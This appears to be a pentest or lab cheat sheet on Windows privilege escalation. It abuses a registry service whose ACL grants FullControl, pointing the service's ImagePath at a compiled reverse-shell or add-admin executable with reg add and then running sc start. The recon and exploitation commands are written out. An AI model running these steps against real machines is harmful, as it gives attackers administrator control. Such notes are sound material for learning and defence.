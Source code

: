 ## ACL of regsvc
### Recon
- Check the access control lists of a registry service with:
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
- If you see -  “NT AUTHORITY\INTERACTIVE” has “FullContol” then we can escalate.

#### Note:
- The steps below of exploitation, can also be done if some service has exe where we get Full Access. 
- To find such exe: `PowerUp.ps1`.

### Exploitation
- Make a C file with code for rev-shell, adding admin user etc., compile into exe (using mingw).
- Copy it over to windows machine.
- Add to registry key using:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
Args:
- `/v` to name the subkey, here ImagePath (stores exe to run when service starts).
- `/t` for type, here REG_EXPAND_SZ means we are providing the path as a string.
- `/d` for the path to exe.
- `/f` just run, no need to confirm.
Now to run the service:
```
sc start regsvc
```
And you have successfully escalated.
